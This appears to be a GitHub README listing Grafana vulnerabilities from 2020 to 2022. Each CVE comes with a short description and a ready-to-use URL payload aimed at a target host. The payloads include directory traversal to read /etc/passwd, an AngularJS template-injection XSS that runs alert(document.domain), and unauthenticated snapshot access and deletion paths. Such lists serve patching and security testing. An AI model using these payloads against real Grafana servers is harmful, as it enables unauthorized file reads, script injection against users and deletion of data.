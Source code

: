 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;" height="100px"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/Grafana-CVE"> 
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/Grafana-CVE">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>

# Grafana-CVE
a Curated list of Grafana Security Vulnerabilities, CVE & exploit


## What Is Grafana? 
Grafana is a multi-platform open source analytics and interactive visualization web application. It provides charts, graphs, and alerts for the web when connected to supported data sources


## CVE-2020-11110
Grafana through 6.7.1 allows stored XSS due to insufficient input protection in the originalUrl field, which allows an attacker to inject JavaScript code that will be executed after clicking on Open Original Dashboard after visiting the snapshot.

```url
https://target/api/snapshots
```


## CVE-2021-43798
 Grafana versions 8.0.0-beta1 through 8.3.0 (except for patched versions) iss vulnerable to directory traversal, allowing access to local files. The vulnerable URL path is: `<grafana_host_url>/public/plugins//`, where is the plugin ID for any installed plugin.

 ```url
https://target/public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd
 ```


## CVE-2021-41174
 In affected versions if an attacker is able to convince a victim to visit a URL referencing a vulnerable page, arbitrary JavaScript content may be executed within the context of the victim's browser. The user visiting the malicious link must be unauthenticated and the link must be for a page that contains the login button in the menu bar. The url has to be crafted to exploit AngularJS rendering and contain the interpolation binding for AngularJS expressions. AngularJS uses double curly braces for interpolation binding: {{ }} ex: {{constructor.constructor(‘alert(1)’)()}}. When the user follows the link and the page renders, the login button will contain the original link with a query parameter to force a redirect to the login page. The URL is not validated and the AngularJS rendering engine will execute the JavaScript expression contained in the URL. 

 ```url
 https://target/dashboard/snapshot/%7B%7Bconstructor.constructor(%27alert(document.domain)%27)()%7D%7D?orgId=1
 ```


 ## CVE-2021-39226
In affected versions unauthenticated and authenticated users are able to view the snapshot with the lowest database key by accessing the literal paths: /dashboard/snapshot/:key, or /api/snapshots/:key. If the snapshot "public_mode" configuration setting is set to true (vs default of false), unauthenticated users are able to delete the snapshot with the lowest database key by accessing the literal path: /api/snapshots-delete/:deleteKey. Regardless of the snapshot "public_mode" setting, authenticated users are able to delete the snapshot with the lowest database key by accessing the literal paths: /api/snapshots/:key, or /api/snapshots-delete/:deleteKey. 

```url
https://target/api/snapshots/:key
```


## CVE-2021-27358
The snapshot feature in Grafana 6.7.3 through 7.4.1 can allow an unauthenticated remote attackers to trigger a Denial of Service via a remote API call if a commonly used configuration is set.

```url
https://target/api/snapshots
```


## CVE-2022-32275
Grafana 8.4.3 allows reading files via (for example) a /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd URI.

```url
 https://target/dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd
```


## CVE-2022-32276
** DISPUTED ** Grafana 8.4.3 allows unauthenticated access via (for example) a /dashboard/snapshot/*?orgId=0 URI. NOTE: the vendor considers this a UI bug, not a vulnerability.

```url
https://target/dashboard/snapshot/*?orgId=0
```


## Grafana Enterprise Metrics
Metrics tell you how much of something exists, such as how much memory a computer system has available or how many centimeters long a desktop is. In the case of Grafana, metrics are most useful when they are recorded repeatedly over time.

```url
https://target/metrics
```


## referencess
* [Grafana : Security Vulnerabilities](https://www.cvedetails.com/cve/CVE-2022-32276/)